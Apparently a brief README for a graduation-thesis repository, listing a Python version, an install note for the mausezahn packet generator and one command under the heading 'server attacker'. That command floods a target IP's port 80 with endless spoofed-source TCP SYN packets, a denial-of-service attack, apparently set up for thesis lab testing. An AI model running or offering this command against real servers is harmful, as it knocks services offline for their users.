 # graduation-thesis

Python 3.9.18


server attacker

cai mausezahn 
- https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=778020 

sudo mz eth0 -c 0 -Q 50,100 -A rand -B 172.31.28.228 -t tcp " dp=80,sp=1024-60000,flags=syn